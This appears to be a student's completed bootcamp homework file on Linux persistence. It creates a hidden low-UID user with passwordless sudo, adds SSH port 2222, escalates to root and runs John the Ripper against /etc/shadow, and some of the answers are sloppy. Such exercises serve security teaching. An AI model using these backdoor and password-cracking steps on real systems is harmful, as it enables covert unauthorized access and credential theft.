 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser sysd

2. Give your secret user a password: 
    - sudo passwd sysd

3. Give your secret user a system UID < 1000:
    - sudo usermod -u 400 sysd

4. Give your secret user the same GID:
   - sudo groupmod -g 400 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo visudo

6. Test that `sudo` access works without your password:

    ```bash
    sysd ALL=(ALL:ALL) NOPASSWD:ALL
    ```

**Step 2: Smooth Sailing**
sudo nano etc/ssh/sshd_config 
    

1. Edit the `sshd_config` file:

    ```#SSH access via port 2222
    port 22
    port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su 
    John /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

